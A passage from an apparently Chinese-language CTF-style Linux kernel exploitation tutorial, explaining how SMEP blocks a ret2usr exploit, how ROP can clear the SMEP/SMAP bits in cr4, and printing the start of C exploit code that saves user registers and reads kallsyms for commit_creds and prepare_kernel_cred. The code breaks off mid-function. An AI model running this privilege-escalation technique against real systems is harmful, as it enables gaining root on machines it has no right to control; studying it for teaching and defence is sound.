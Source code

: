 之后我们重新运行之前的 ret2usr 的 exp，发现直接 kernel panic 了，这是因为我们想要执行用户空间的函数指针，触发了 SMEP 保护。

那么这里我们只需要通过 ROP 来关闭 SMEP&SMAP 即可继续 ret2usr，这里用与运算将 SMEP 与 SMAP 的两位给清除掉了，实际上直接给 cr4 赋值 `0x6f0` 也是可以的（通常关了以后都是这个值）

前面我们使用 swapgs 和 iret 两条指令来返回用户态，这一次我们直接使用 `swapgs_restore_regs_and_return_to_usermode` 来返回用户态。

exp

```assembly
#include<stdio.h>
#include<sys/types.h>
#include<sys/stat.h>
#include<fcntl.h>


size_t commit_creds = 0, prepare_kernel_cred = 0;

//cat /sys/module/core/sections/.text
//init: setsid /bin/cttyhack setuidgid 0 /bin/sh
size_t raw_vmlinux_base = 0xffffffff81000000;
size_t vmlinux_base = 0;


size_t user_cs,user_ss,user_rflags,user_sp;
void save_status(){
   __asm__("mov user_cs,cs;"
           "mov user_ss,ss;"
           "mov user_sp,rsp;"
           "pushf;"            //push eflags
           "pop user_rflags;"
          );
}


size_t find_symbols(){
   FILE* kallsyms_fd = fopen("/tmp/kallsyms","r");
   if(kallsyms_fd < 0){
      puts("[*]open kallsyms error!");
      exit(0);
   }

   char buf[0x30] = {0};
   while(fgets(buf,0x30,kallsyms_fd)){
      if(commit_creds & prepare_kernel_cred)
         return 0;
      //find commit_creds
      if(strstr(buf,"commit_creds") && !commit_creds){
         char hex[20] = {0};
         strncpy(hex,buf,16);
         sscanf(hex,"%llx",&commit_creds);
         printf("commit_creds addr: %p\n",commit_creds);
         
         vmlinux_base = commit_creds - 0x9c8e0;
         printf("vmlinux_base addr: %p\n",vmlinux_base);
      }

      //find prepare_kernel_cred
      if(strstr(buf,"prepare_kernel_cred") && !prepare_kernel_cred){
         char hex[20] = {0};
         strncpy(hex,buf,16);
         sscanf(hex,"%llx",&prepare_kernel_cred);
         printf("prepare_kernel_cred addr: %p\n",prepare_kernel_cred);
         vmlinux_base = prepare_kernel_cred - 0x9cce0;
      }

```
